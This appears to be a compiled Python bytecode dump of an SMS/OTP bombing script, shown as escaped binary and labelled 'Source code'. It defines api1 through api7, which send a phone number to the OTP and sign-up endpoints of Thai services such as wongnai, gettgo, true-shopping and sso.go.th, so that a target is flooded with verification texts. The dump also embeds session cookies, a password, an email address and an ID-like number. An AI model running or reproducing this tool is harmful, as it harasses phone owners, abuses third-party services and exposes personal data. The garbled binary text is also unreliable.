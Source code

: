 \xf0\x9f\x92\xa3------------------------u8\x00\x00\x00\x1b[1;90m[\x1b[1;95m\xe0\xb8\x81\xe0\xb8\xb3\xe0\xb8\xa5\xe0\xb8\xb1\xe0\xb8\x87\xe0\xb8\x97\xe0\xb8\xb3\xe0\xb8\x87\xe0\xb8\xb2\xe0\xb8\x99\xe2\x9c\x85\x1b[1;90m])\x05\xda\x04time\xda\x05sleepr"\x00\x00\x00r\x13\x00\x00\x00r.\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x07working\\\x00\x00\x00r\'\x00\x00\x00r2\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\xc3\x00\x00\x00s\x14\x00\x00\x00t\x00\xa0\x01d\x01t\x02\x9b\x00\x9d\x02\xa1\x01\x01\x00d\x00S\x00)\x02Nz6https://www.scgexpress.co.th/member/getRegister?phone=\xa9\x03\xda\x08requests\xda\x03getr\x13\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x04api1^\x00\x00\x00r\'\x00\x00\x00r6\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x08\x00\x00\x00\xc3\x00\x00\x00s0\x00\x00\x00t\x00t\x01t\x02t\x03t\x04d\x01t\x05d\x02i\x04}\x00t\x06j\x07d\x03|\x00d\x04t\x08\x9b\x00d\x05\x9d\x03d\x06\x8d\x03\x01\x00d\x00S\x00)\x07Nz@https://www.wongnai.com/guest2?_f=signUp&guest_signup_type=phonez!_gcl_au=1.1.1123274548.1637746846zHhttps://www.wongnai.com/_api/guest.json?_v=6.054&locale=th&_a=phoneLogInz\x08phoneno=z\r&retrycount=0\xa9\x02\xda\x07headers\xda\x04data)\t\xda\x02_B\xda\x02_J\xda\x02_A\xda\x02_G\xda\x02_E\xda\x02_Dr4\x00\x00\x00\xda\x04postr\x13\x00\x00\x00r$\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x04api2_\x00\x00\x00r\'\x00\x00\x00rA\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\xc3\x00\x00\x00s\x16\x00\x00\x00t\x00j\x01d\x01d\x02t\x02i\x01d\x03\x8d\x02\x01\x00d\x00S\x00)\x04Nz+https://gettgo.com/sessions/otp_for_sign_upZ\rmobile_number\xa9\x01r9\x00\x00\x00\xa9\x03r4\x00\x00\x00r@\x00\x00\x00r\x13\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x04api3`\x00\x00\x00r\'\x00\x00\x00rD\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\xc3\x00\x00\x00s\x16\x00\x00\x00t\x00j\x01d\x01t\x02t\x03i\x01d\x02\x8d\x02\x01\x00d\x00S\x00)\x03NzEhttps://api.true-shopping.com/customer/api/request-activate/mobile_norB\x00\x00\x00)\x04r4\x00\x00\x00r@\x00\x00\x00\xda\x02_Sr\x13\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x04api4a\x00\x00\x00r\'\x00\x00\x00rF\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\xc3\x00\x00\x00s\x16\x00\x00\x00t\x00j\x01t\x02t\x03t\x04i\x01d\x01\x8d\x02\x01\x00d\x00S\x00\xa9\x02NrB\x00\x00\x00\xa9\x05r4\x00\x00\x00r@\x00\x00\x00\xda\x02_p\xda\x02_Cr\x13\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x04api5b\x00\x00\x00r\'\x00\x00\x00rK\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\xc3\x00\x00\x00s\x16\x00\x00\x00t\x00j\x01t\x02d\x01t\x03i\x01d\x02\x8d\x02\x01\x00d\x00S\x00\xa9\x03Nr\x13\x00\x00\x00rB\x00\x00\x00\xa9\x04r4\x00\x00\x00r@\x00\x00\x00\xda\x02_qr\x13\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x04api6c\x00\x00\x00r\'\x00\x00\x00rO\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n\x00\x00\x00\xc3\x00\x00\x00s,\x00\x00\x00t\x00j\x01d\x01t\x02t\x03t\x04t\x05t\x06t\x07t\x08d\x02i\x04d\x03t\t\x9b\x00d\x04\x9d\x03d\x05\x8d\x03\x01\x00d\x00S\x00)\x06Nz4https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otpa]\x03\x00\x00sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684z\x1bdCard=1358231116147&Mobile=z\xc1&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTERr7\x00\x00\x00)\nr4\x00\x00\x00r@\x00\x00\x00\xda\x02_I\xda\x02_M\xda\x02_F\xda\x02_K\xda\x02_T\xda\x02_L\xda\x02_Ur\x13\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1e\x00\x00\x00r\x1f\x00\x00\x00\xda\x04api7d\x00\x00\x00r\'\x00\x00\

